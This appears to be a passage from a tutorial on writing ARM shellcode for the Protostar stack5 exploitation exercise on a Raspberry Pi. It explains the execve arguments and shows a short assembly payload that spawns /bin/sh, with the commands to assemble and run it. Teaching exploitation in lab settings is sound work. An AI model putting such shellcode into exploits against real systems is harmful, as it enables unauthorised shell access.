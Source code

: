 ```code
       strings (i.e., argv[0]) should contain the filename associated with the file being executed.  envp is  an
       array  of  strings, conventionally of the form key=value, which are passed as environment to the new pro‐
       gram.  The argv and envp arrays must each include a null pointer at the end of the array.

...
```

it requires:  
1. `filename` must be either a binary executable
2. `argv`  is  an  array  of  argument  strings  passed to the new program
3. `envp` is  an array  of  strings of environment variables


So, the function arguments will go in registers `r0`, `r1`, `r2` and the syscall number in register `r7`.  

`r0` -> `/bin/sh`  
`r1` -> `NULL`  
`r2` -> `NULL`  
`r7` -> `#11`  

At this point, we can write our little shellcode according with these information.

```assembler
.section .text
.global _start

_start:
  add   r0, pc, #12     @ line 1  
  mov   r1, #0          @ line 2
  mov   r2, #0          @ line 3
  mov   r7, #11         @ line 4
  svc   0               @ line 5
.ascii "/bin/sh\0"      @ line 6
```

`line1`: we add 12 to the `pc` to reach the `.ascii` string. ARM processors are three-stage pipeline (Fetch-Decode-Execute) so `line1` will be executed when the `pc` will be at
`line3`, and in order to reach the .ascii we have to add 12.   
`line2` and `line3`: `NULL` arguments for the `execve`  
`line4`: syscall number `11` into `r7`  
`line5`: invoke the system call  
`line6`: our string  

Let's asseble, link and execute our file
```code
pi@raspberrypi:~/protostar/stack5 $ as s.s -o s.o
pi@raspberrypi:~/protostar/stack5 $ ld -N s.o -o s
pi@raspberrypi:~/protostar/stack5 $ ./s
$ pwd
/home/pi/protostar/stack5

```
**_It works :)_**  
